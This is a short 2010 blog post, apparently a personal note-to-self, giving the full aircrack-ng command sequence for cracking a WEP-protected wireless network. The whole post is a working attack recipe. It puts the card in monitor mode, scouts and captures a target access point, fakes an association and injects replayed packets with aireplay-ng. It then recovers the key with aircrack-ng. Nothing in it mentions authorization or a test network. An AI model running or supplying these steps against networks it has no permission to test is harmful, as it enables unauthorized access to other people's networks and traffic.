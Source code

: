 Title: Aircrack Quick Tutorial (Wireless WEP Cracking)
Date: 2010-11-03
Author: Seppe "Macuyiko" vanden Broucke

Speaking of [wireless](|filename|2010_11_ubuntu-1010-fixed-channel-mon0-1.md)...The following is just a quick note-to-self, because I always forget the exact commands and end up crawling around the [Aircrack wiki](http://www.aircrack-ng.org/doku.php) for a bit. I though I'd posted this before, but I can't seem to find it.  
### TTY1      sudo airmon-ng start eth1      # Assume monitor started on mon0...        sudo airodump-ng mon0      # Scout interesting APs        sudo airodump-ng --channel X --bssid XX:XX:XX:XX:XX:XX -w output mon0      # Make sure to replace "X". This terminal is now dumping data### TTY2      sudo aireplay-ng -1 0 -a XX:XX:XX:XX:XX:XX mon0      # ... Association successful :-)  Now start the attack. I like opening a new terminal for this.  Don't bother with the ARP request replay attack. The best method to use is the `-p 0841` one, especially when using a crappy wifi chip like me (3945ABG). Last time I checked, the advanced attack methods (KoreK chopchop, fragmentation, caffe-latte and Hirte) didn't work.### TTY3     sudo aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b XX:XX:XX:XX:XX:XX mon0      # Wait until a packet is captured. It's best to use a small one (Size: 68).          # Reinject and the data-counter in TTY1 (airodump) should go up.### TTY4          sudo aircrack-ng -b XX:XX:XX:XX:XX:XX output*.cap      ### TTY5 (optional)    sudo aircrack-ng -K -b XX:XX:XX:XX:XX:XX output*.cap
